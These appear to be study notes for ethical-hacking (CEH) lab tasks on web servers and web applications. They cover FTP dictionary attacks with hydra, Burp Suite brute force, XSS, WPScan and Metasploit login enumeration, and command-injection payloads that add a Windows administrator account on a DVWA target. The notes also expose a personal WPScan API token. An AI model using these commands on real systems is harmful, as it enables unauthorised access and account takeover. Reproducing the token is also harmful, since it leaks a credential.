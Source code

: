**Module 13: Hacking Web Servers**

**Lab2-Task1: Crack FTP Credentials using a Dictionary Attack**

- nmap -p 21 [IP]
- **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**

**Module 14: Hacking Web Applications**

**Lab2-Task1: Perform a Brute-force Attack using Burp Suite**

- Set proxy for browser: 127.0.0.1:8080
- Burpsuite
- Type random credentials
- capture the request, right click-\&gt;send to Intrucder
- Intruder-\&gt;Positions
- Clear $
- Attack type: Cluster bomb
- select account and password value, Add $
- Payloads: Load wordlist file for set 1 and set 2
- start attack
- **filter status==302**
- open the raw, get the credentials
- recover proxy settings

**Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications**

- Log in a website, change the parameter value (id )in the URL
- Conduct a XSS attack: Submit script codes via text area

**Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit**

- **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url**  **http://10.10.10.16:8080/CEH**  **--plugins-detection aggressive --enumerate u**
  - **--enumerate u: Specify the enumeration of users**
  - **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
  - **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
- service postgresql start
- msfconsole
- **use auxiliary/scanner/http/wordpress\_login\_enum**
- show options
- **set PASS\_FILE password.txt**
- **set RHOST 10.10.10.16**
- **set RPORT 8080**
- **set TARGETURI**  **http://10.10.10.16:8080/CEH**
- **set USERNAME admin**
- run
- Find the credential

**Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)**

- If found command injection vulnerability in an input textfield
- | hostname
- | whoami
- **| tasklist| Taskkill /PID /F**
  - **/PID: Process ID value od the process**
  - **/F: Forcefully terminate the process**
- | dir C:\
- **| net user**
- **| net user user001 /Add**
- **| net user user001**
- **| net localgroup Administrators user001 /Add**
- Use created account user001 to log in remotely
